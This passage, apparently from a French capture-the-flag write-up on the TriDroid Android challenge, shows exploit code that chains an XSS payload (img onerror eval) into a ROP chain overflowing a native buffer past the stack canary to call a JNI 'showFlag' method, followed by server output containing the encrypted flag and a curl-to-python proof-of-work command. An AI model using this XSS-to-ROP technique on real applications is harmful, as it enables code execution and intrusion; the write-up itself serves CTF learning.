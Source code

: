 ```javascript
    pop_rsi = libc_base + 0x42d38
    // 0x0000000000042af0 : ret
    ret = libc_base + 0x42af0

    // jniEnv -> RDI
    // this -> RSI
    // @"showFlag" -> RDX
    // @"()V" -> RCX
    rop = pack64(pop_rcx)
    rop += pack64(libc_base + 0xD9510) // ()V
    rop += pack64(pop_rdx)
    rop += pack64(libc_base + 0xD9530) // showFlag
    rop += pack64(pop_rsi)
    rop += pack64(this_ptr)
    rop += pack64(pop_rdi)
    rop += pack64(JNI_env)
    rop += pack64(ret) // for stack alignment
    rop += pack64(invoke_addr)


    // overwrite RIP, after canary + EBP
    modify("41414141414141414141414141414141414141414141414141414141414141414141414141414141"+canary+"4242424242424242"+rop);

</span>
<img src="a" onerror="eval(document.getElementById('exp').innerHTML);" />
```

Nous l'avons encodé en base64 et l'avons envoyé au serveur en utilisant pwntools. Après plusieurs minutes, nous avons finalement obtenu le véritable flag chiffré :

```
== proof-of-work: enabled ==
please solve a pow first
You can run the solver with:
    python3 <(curl -sSL https://goo.gle/kctf-pow) solve s.AB8s.AAAxYZnbk+KFZ4qNDjonCqrl
===================


Welcome to TriDroid, the Triangle of Android:

                    /\
      DEX          /  \       Web
 (Java & Kotlin)  /    \  (HTML & JS)
                 /      \
                /________\

             Native (C & C++)

$ 
[*] Interrupted
[*] Switching to interactive mode

Thank you! Check out the logs. This may take a while ...

--------- beginning of kernel
--------- beginning of main
--------- beginning of system
07-26 21:42:54.017  4220  6232 D TriDroid: Flag: Fd60z2/WC/boWFPcZ1pbJW5v3eOjGcR3vajE7rPNN67pxtzYfNRYCE2XoTeOlw1uGYO24cqV/QnvD2rykyXzxQ==
--------- beginning of crash
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```